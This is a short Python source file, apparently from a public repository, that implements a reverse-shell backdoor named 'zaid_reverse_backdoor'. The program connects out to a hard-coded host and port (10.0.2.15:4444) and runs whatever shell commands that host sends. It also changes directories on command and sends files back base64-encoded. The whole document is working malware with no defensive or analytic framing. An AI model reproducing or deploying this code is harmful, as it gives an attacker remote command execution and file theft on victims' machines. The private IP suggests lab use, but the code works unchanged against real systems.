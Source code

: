# zaid_reverse_backdoor
import socket, subprocess, json, os,base64

class Backdoor:
    def __init__(self, ip, port):
        self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.connection.connect((ip, port))

    def reliabe_send(self, data):
        json_data = json.dumps(data)
        self.connection.send(json_data)

    def reliable_receive(self):
        json_data = ""
        while True:
            try:
                json_data = json_data + self.connection.recv(1024)
                return json.loads(json_data)

            except ValueError:
                continue

    def execute_system_commad(self, command):
    	return subprocess.check_output(command, shell=True)

    def change_working_directory_to(self, path):
        os.chdir(path)
        return  "[+] changing working directory to " + path

    def read_file(self, path):
        with open(path, "rb") as file:
            return base64.b64encode(file.read())

    def run(self):
        while True:
            command = self.reliable_receive()
            if command[0] == "exit":
                self.connection.close()
                exit()
            elif command[0] == "cd" and len(command) > 1:
                command_result = self.change_working_directory_to(command[1])
            elif command[0] == "download":
                command_result = self.read_file(command[1])
            else:
                command_result = self.execute_system_commad(command)
            self.reliabe_send(command_result)


my_backdoor = Backdoor("10.0.2.15", 4444)
my_backdoor.run()
